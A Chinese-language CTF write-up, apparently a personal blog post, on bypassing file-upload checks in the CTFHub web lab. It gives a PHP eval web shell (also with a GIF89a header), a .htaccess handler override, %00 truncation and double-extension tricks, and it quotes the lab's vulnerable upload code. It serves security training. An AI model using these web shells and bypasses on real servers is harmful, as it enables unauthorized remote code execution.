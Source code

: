 ```yaml
---
layout: post
title: CTFHub Web 文件上传
subtitle: CTFHub Web 文件上传
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
---
```

## 1. 文件上传

### 1.1. 无验证

构造一句话木马 `shell.php`

```php
<?php echo 123;@eval($_POST['code']);?>
```

上传成功

![image](https://img.ghostliner.top/geMboM.png)

![image](https://img.ghostliner.top/Q3YLJs.png)

蚁剑获取到 flag 文件

![image](https://img.ghostliner.top/8EERyC.png)

### 1.2. 前端验证

上传 `shell.php.jpg` bp 抓包修改后缀，上传成功，蚁剑连接

![image](https://img.ghostliner.top/bwzZR3.png)

### 1.3. .htaccess

创建 `.htaccess` 文件上传

```php
<FilesMatch "wshell">
Sethandler application/x-httpd-php
</FilesMatch>
```

上传 `shell.gif` 木马

代码成功执行

![image](https://img.ghostliner.top/cGx3KP.png)

![image](https://img.ghostliner.top/wcRdc9.png)

### 1.4. MIME 绕过

上传 `shell.php.jpg` bp 抓包修改后缀，上传成功，蚁剑连接

![image](https://img.ghostliner.top/sq30WW.png)

### 1.5. 00 截断

检查发现代码，文件路径由 get 提交的 `road` 和随机数、时间、后缀组成

```php
if (!empty($_POST['submit'])) {
    $name = basename($_FILES['file']['name']);
    $info = pathinfo($name);
    $ext = $info['extension'];
    $whitelist = array("jpg", "png", "gif");
    if (in_array($ext, $whitelist)) {
        $des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;
        if (move_uploaded_file($_FILES['file']['tmp_name'], $des)) {
            echo "<script>alert('上传成功')</script>";
        } else {
            echo "<script>alert('上传失败')</script>";
        }
    } else {
        echo "文件类型不匹配";
    }
}
```

`%00` 截断 road 参数，上传成功

![image](https://img.ghostliner.top/yLCSDP.png)

![image](https://img.ghostliner.top/FHiJk6.png)

![image](https://img.ghostliner.top/3E9ATO.png)

### 1.6. 双写后缀

代码发现字符替换函数，双写绕过

```php
$name = basename($_FILES['file']['name']);
$blacklist = array("php", "php5", "php4", "php3", "phtml", "pht", "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml", "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer", "swf", "htaccess", "ini");
$name = str_ireplace($blacklist, "", $name);
```

上传 `shell.pphphp` 成功，蚁剑

![image](https://img.ghostliner.top/99LdSm.png)

### 1.7. 文件头检查

上传 `shell.php.gif` bp 抓包修改后缀，

```php
GIF89a
<?php echo 123;@eval($_POST['code']);?>
```

上传成功，蚁剑连接

![image](https://img.ghostliner.top/ay93X5.png)
